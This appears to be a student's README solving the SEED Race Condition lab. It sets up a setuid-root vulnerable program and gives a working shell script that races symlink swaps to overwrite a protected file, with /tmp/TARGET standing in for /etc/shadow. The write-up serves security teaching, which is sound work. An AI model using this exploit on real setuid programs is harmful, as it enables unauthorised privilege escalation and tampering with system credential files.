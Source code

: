 
# SS

## Lab2

#### Documentation
* [Homepage](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Race_Condition/)
* [Description](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Race_Condition/Race_Condition.pdf)

#### Required
* [Ubuntu Virtual Machine](http://www.cis.syr.edu/~wedu/SEEDUbuntu12.04.zip)
* `vulp.c`
* `check.sh`

#### Tasks
1. Edit /tmp/TARGET without authorization

#### Solution

1. Compile `vulp.c`:
```
sudo gcc vulp.c -o vulp
sudo chmod 4755 vulp
```
2. Create `/tmp/TARGET` and `/tmp/XYZ`
```
sudo touch /tmp/TARGET  # simulate /etc/shadow
touch /tmp/XYZ
```

3. Change `check.sh` to apply Race Condition Attack
```
#!/bin/sh

old=`ls -l /tmp/TARGET`
new=`ls -l /tmp/TARGET`

rm dummy
touch dummy

while [ "$old" = "$new" ]
do
        rm /tmp/XYZ
        ln -s dummy /tmp/XYZ
        ./vulp < input.txt &
        rm /tmp/XYZ
        ln -s /tmp/TARGET /tmp/XYZ

        new=`ls -l /tmp/TARGET`
done

echo "STOP... The shadow file has been changed"
```
